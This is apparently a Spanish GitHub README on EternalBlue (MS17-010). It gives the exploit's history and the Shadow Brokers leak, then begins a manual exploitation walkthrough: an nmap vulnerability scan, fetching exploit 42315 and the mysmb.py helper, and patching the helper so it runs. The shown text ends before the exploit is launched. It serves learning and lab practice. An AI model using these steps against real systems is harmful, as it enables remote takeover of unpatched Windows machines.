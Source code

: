 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Explotar+Windows+7+con+exploit+EternalBlue"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD y ORIGEN de ETERNALBLUE</ins></h3>

EternalBlue es un exploit desarrollado por la NSA (Agencia de Seguridad Nacional de los EE.UU) y filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, el grupo se filtro en la base de datos de la agencia y desde allí accedieron a todo tipo de herramientas y exploits que luego publicaron en venta. Luego de que el exploit fuera liberado, los ciberdelincuentes no tardaron en aprovecharse para atacar hospitales, empresas y gobiernos con dicha vulnerabilidad; fue utilizado en el ataque mundial de ransomware con <a href="https://es.wikipedia.org/wiki/WannaCry">WannaCry</a>. Los ataques aumentaron desconsideradamente y para la NSA no le quedo otra opción que reportar la vulnerabilidad a Microsoft y que esté lance un parche para corregirla.

EternalBlue se aprovecha de una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, cuyo protocolo permite compartir archivos e impresoras conectadas a la red. Estaba presente en todos los sistemas operativos Windows: Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold. Aunque Microsoft libero una actualización de seguridad  el 14 de marzo de 2017 que resolvió el problema a través del parche <a href="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010">MS17-010</a>, seguidamente se extendió a versiones antiguas de Windows (Windows XP, Windows 8 y Windows Server 2003).

La vulnerabilidad es capaz de otorgar el control completo sobre una máquina por medio de ejecucción de código arbitrario a nivel administrador sin requerir la interacción del usuario. Si bien es cierto que a día de hoy esta vulnerabilidad ha sido parchada, pero no significa que no debamos estar alerta ya que en la actualidad hay empresas que siguen utilizando versiones antiguas de Windows que no tienen soporte (Ej. Windows 7), así como también para uso doméstico en computadoras antiguas.

</br>

<h4 align="center">Grupo The Shadow Brokers</h4>

El grupo de Shadow Brokers apareció por primera vez en el verano del 2016. Fue reconocido por sus publicaciones en donde filtraban herramientas de hacking, exploits y vulnerabilidades zero-day del "Equation Group", una rama de la NSA clasificada como una amenaza persistente avanzada. Los exploits estaban dirigidos a firewalls empresariales, software, productos de Windows, smart TVs, smartphones y otros dispositivos para recopilar información. Las publicaciones de Shadow Brokers indicaban que tenían programas de espionaje dirigidos a productos de Juniper, Fortigate, Cisco y Topsec, así como también el código del gusano informático Stuxnet (utilizado para atacar las instalaciones de uranio de Irán).

El grupo de hackers tenía una web bajo ZeroNet donde subastaban los exploits directamente y de uno en uno, los precios iban desde 1 y 100 bitcoins pero la sala de subasta no tenia suficiente actividad, por lo que nadie quería comprarlos en su momento. Los intentos de venta han sido por medio de comunicados en inglés, y que según estos, tienen faltas de ortografía, lo que deduce que no son estadounidenses y que trabajan para un gobierno en específico. Hasta la fecha su cuenta de <a href="https://twitter.com/shadowbrokerss/status/879955121878204416">Twitter</a> sigue existiendo desde agosto de 2016 pero sin señales de actividad desde su última publicación en donde ofrecen servicios individuales VIPs para hackear una organización, obtener información confidencial o comprar herramientas via email.

<p align="center">
  <img src="https://www.muyseguridad.net/wp-content/uploads/2017/04/Shadow-Brokers.jpg">
</p>

##### WEBGRAFÍA:

- https://es.wikipedia.org/wiki/EternalBlue

- https://en.wikipedia.org/wiki/The_Shadow_Brokers

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Manual

Con el script (*smb-vuln-ms17-010*) de Nmap comprobamos si el sistema es o no vulnerable a EternalBlue:
```
sudo nmap --script smb-vuln-ms17-010 <TARGET>
```
![1](https://user-images.githubusercontent.com/75953873/187816900-9f93b05a-4a26-4c31-8688-8c01d989c8aa.png)

Efectivamente, el sistema es vulnerable a EternalBlue. Ahora faltaría bajar localizar el exploit y descargarlo con Searchsploit:
```
searchsploit eternalblue
```
![2](https://user-images.githubusercontent.com/75953873/187817250-1095f790-fbd9-4e0f-8a20-d4d2e71a5f87.png)

Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 = **42315**
```
searchsploit -m 42315
```
El exploit esta programado con Python3 y es necesario el módulo mysmb para hecharlo andar, así que ejecutamos el siguiente comando para descargarlo:
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Si ejecutamos el código podemos observar que no presenta errores de módulos:

![3](https://user-images.githubusercontent.com/75953873/187817618-3481722e-5597-494b-bbc6-1921667df305.png)

Las tuberías con nombre (named pipes) son una forma de que los procesos en ejecucción se comuniquen entre sí con muy poca sobrecarga, generalmente aparecen como nombre de archivos para que otros procesos se adjunten. Metasploit tiene un escáner que encontrará cualquier tubería con nombre de un host, pero yo prefiero utilizar un script de forma manual: https://github.com/zzwlpx/ms17010-nsa-EternalBlue/blob/master/checker.py

Después de descargar y ejecutar el código, lo más normal es que le salte el siguiente error:

![5](https://user-images.githubusercontent.com/75953873/188349074-f68ddd3e-7bfa-4148-885e-9dce04ca2ea3.png)

Esto ocurre porque la función `str` se utiliza para devolver una cadena, no para imprimir una. Para solucionarlo debemos editar el código `mysmb.py`, primeramente se debe comentar la línea 229 y 230, luego agregar las siguientes líneas:
```python
req = pkt.getData()
return b'\x00'*2 + pack('>H', len(req)) + req
```
![6](https://user-images.githubusercontent.com/75953873/188349925-e476d8c8-7cef-4932-b599-1a33e810e63e.png)
